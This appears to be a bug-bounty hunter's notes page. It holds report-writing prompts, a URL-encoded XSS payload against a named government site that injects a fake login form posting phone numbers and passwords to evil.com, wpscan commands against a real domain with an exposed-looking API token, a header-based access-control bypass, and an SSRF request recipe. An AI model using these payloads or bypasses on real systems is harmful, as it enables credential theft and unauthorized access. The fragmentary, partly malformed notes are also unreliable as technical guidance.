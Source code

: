    Prompt:
   - Explain the impact of what an attacker could do with a UUID IDOR vulnerability and any caveats for exploitation in 3 sentences as part of a bug bounty report and optimize for maximum reward.

   Prompt:
   - Summarize the exploit for the following bug bounty report in numbered bullets to a target audience of bug bounty hunters: <paste text from disclosed report

# for xss paylaod: [from h1 report 1810656]
   https://labs.history.state.gov/card.xq?id=%3C/title%3E%3Cbody%20style=%22background:%20green;%22%3E%3Cdiv%20class=%22container%22%3E%3Cform%20action=%22https://www.evil.com%22%20method=%22post%22%20class=%22form%22%20style=%22display:%20block;%22%3E%3Clabel%20for=%22pnumber%22%3Ephone%20number%20%3C/label%3E%3Cbr%3E%3Cinput%20type=%22tel%22%20name=%22pnumber%22%20id=%22pnumber%22%20value=%22%22%20placeholder=%22phone%20number%22%20maxlength=%2211%22inputmode=%22tel%22%20size=%2240px%22%3E%3Cbr%3E%3Clabel%20for=%22pword%22%3Epassword%3C/label%3E%3Cbr%3E%3Cinput%20type=%22password%22%20name=%22pword%22%20id=%22pword%22%20value=%22%22%20placeholder=%22password%22%20maxlength=%22200%22%20size=%2240px%22height=%22100px%22%3E%3Cbr%3E%3Cinput%20type=%22submit%22%20value=%22login%22%3E%3C/form%3E%3C/div%3E%3Cfont%20style=%22font-size:%20100px;color:%20red;%22%20class=%22welcome%22%3EWE%20ARE%20HACKERONE%3C/font%3E

# theory u can use in reports
   - I have never gotten a report triaged this fast before - impressive! Thanks for the feedback and please let me know if there is any way I can help.

   - I can confirm that this patch is working. Great job and thank you very much for the bounty!

   -Got listed in Microsoft as a Security Researcher for reporting a Security Vulnerability :)

#wpscan [to dectect wordpress vuln plugin & theme ]
   1. wpscan --url https://enterprise.dailymotion.com -e vp, vt, cb --api-token 66wd5ttlJjcyoSY53ZQngci0vI60Nzs2kIdhdW3gKH0 --random-user-agent --ignore-main-redirect --force --disable-tls-checks

   2. some times wordpress not install in root directory so u need to specify the wp-content folder
   wpscan — url https://redacted.com/news/artcile/wp-content — wp-content-dir -e vp — api-token YOUR_API_TOKEN — random-user-agent — ignore-main-redirect — force — disable-tls-checks

   3. sometimes wpscan not identify some plugin or theme so look in view-source page to exploit

 { reports some noteicible points

#forced-browsing
   Unauthorized access to event mgt system:
   Function- You can create public or private invents
   1. site. com/xyz/username?view=current_events
   2.Change username and forward request
   3. Able to just view title, date created and event owner name
   4. Escalated to access via manual headers
   5. Used X-Rewrite-URL: /current_events
   6. Forward request . Now able to see full event data
   7. For performing every step I need to add X-Rewrite-URL: /action_here
   Tip: Always add headers to bypass single based verification on sensitive action. P2 marked as P1

#SSRF
POST /_hcms/perf HTTP/1.0
Host: http://target.com
X-Forwarded-For: http://collaborator.net
Note:
 -HTTP version changed from 1.1 to 1.0
 -GET to POST. And MIME type must be txt
Remaining : Google it
